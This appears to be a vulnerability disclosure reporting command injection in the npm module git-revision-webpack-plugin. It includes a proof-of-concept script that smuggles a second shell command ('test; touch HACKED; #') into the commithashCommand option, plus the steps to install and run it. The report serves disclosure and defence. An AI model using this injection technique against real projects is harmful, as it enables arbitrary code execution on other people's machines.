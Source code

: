 # Description

The `git-revision-webpack-plugin` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var GitRevisionPlugin = require('git-revision-webpack-plugin');
var test = new GitRevisionPlugin({'gitWorkTree':'s', 'commithashCommand':'test; touch HACKED; #', 'branchCommand':'s'});
test.commithash();

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i git-revision-webpack-plugin # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
